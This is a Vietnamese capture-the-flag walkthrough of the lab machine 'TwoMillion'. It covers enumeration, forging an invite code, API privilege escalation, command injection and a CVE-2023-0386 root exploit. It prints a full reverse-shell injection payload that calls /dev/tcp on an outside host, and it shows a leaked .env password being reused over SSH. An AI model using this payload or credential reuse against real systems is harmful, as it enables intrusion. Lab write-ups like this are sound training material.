# TwoMillion

(Guided Mode)

Target IP Address: `10.129.229.66`

### Task 1: How many TCP ports are open?

`nmap 10.129.229.66`

ssh port 22, http port 80

Answer: 2

### Task 2: What is the name of the JavaScript file loaded by the `/invite` page that has to do with invite codes?



Answer: `inviteapi.min.js`

### Task 3: What JavaScript function on the invite page returns the first hint about how to get an invite code? Don't include () in the answer.



File js bị obfuscated/minified nên ta sẽ dùng https://thanhle.io.vn/de4js/ để giải qua 



Answer: `makeInviteCode`

### Task 4: The endpoint in `makeInviteCode` returns encrypted data. That message provides another endpoint to query. That endpoint returns a `code` value that is encoded with what very common binary to text encoding format. What is the name of that encoding?

Đọc đoạn code ta thấy hàm `makeInviteCode` gọi đến endpoint `/api/v1/invite/how/to/generate` ta sẽ gửi request đến endpoint này 



Response trả về có hint, data, và enctype 

Ta phát hiện ra đoạn data bị encrypt bằng ROT13, giải mã ta được 





Bôi đen đoạn text, burp sẽ phát hiện ra đó là Base64



Answer: `base64`

### Task 5: What is the path to the endpoint the page uses when a user clicks on "Connection Pack"?

Dùng đoạn mã vừa tạo được vào invite và đăng ký 1 acc

Sau khi vào được, truy cập Access ta thấy có `Connection Pack`



Qua burp ta thấy request



Answer: `/api/v1/user/vpn/generate`

### Task 6: How many API endpoints are there under `/api/v1/admin`?

Task này ta có gợi ý truy cập /api để lấy thêm thông tin





Answer: 3

### Task 7: What API endpoint can change a user account to an admin account?





Thay đổi Content-Type



Sử dụng email ta vừa đăng ký tài khoản:



Và ta đã update được user lên is_admin:1



### Task 8: What API endpoint has a command injection vulnerability in it?



Answer: `/api/v1/admin/vpn/generate`

### Task 9: What file is commonly used in PHP applications to store environment variable values?

Từ đây ta tạo shell





payload: `; bash -c 'bash -i >& /dev/tcp/10.10.17.118/1234 0>&1'`



Answer: `.env`

### Task 10: Flag USER

Nhưng nếu ở www-data ta sẽ không có quyền đọc file flag



Đọc file `.env` để lấy thêm thông tin ta có được:



Đây là thông tin database, nhưng trong nhiều trường hợp người dùng dùng 1 mật khẩu cho nhiều nơi 

Nên ta nhớ lại còn port 22 SSH mở ta sẽ dùng nó thử 

password: `SuperDuperPass123`



Và ta sử dụng được password đó 



Answer: 

### Task 11: What is the email address of the sender of the email sent to admin?

Để tìm email trong Linux ta có Folder Email trong `var`



Answer: ch4p@2million.htb

### Task 12: What is the 2023 CVE ID for a vulnerability in that allows an attacker to move files in the Overlay file system while maintaining metadata like the owner and SetUID bits?

Trong email người dùng nói rằng system đã bị kernel exploit và từ hóa là `OverlayFS / FUSE`

Tìm kiểm từ khóa `overlays fuse exploit` và gợi ý của HTB cho task này 

`What is the 2023 CVE ID for a vulnerability in that allows an attacker to move files in the Overlay file system while maintaining metadata like the owner and SetUID bits?`

Hint: `Search for terms like "linux vulnerability fuse overlayfs".`

Từ các dữ kiện này ta chắc chắn đang có CVE-2023-0386 để leo root

Answer: `CVE-2023-0386`

### Task 13: Flag ROOT

Sử dụng 1 mã exploit https://github.com/sxlmnwb/CVE-2023-0386

Tải zip về đẩy vào máy victim 



Unzip và làm theo các command chỉ dẫn 





ssh 1 session khác và thực hiện command còn lại 

### Task 14: [Alternative Priv Esc] What is the version of the GLIBC library on TwoMillion?

Answer: 2.35

### Task 15: [Alternative Priv Esc] What is the CVE ID for the 2023 buffer overflow vulnerability in the GNU C dynamic loader?

### Task 16: [Alternative Priv Esc] With a shell as admin or www-data, find a POC for Looney Tunables. What is the name of the environment variable that triggers the buffer overflow? After answering this question, run the POC and get a shell as root.

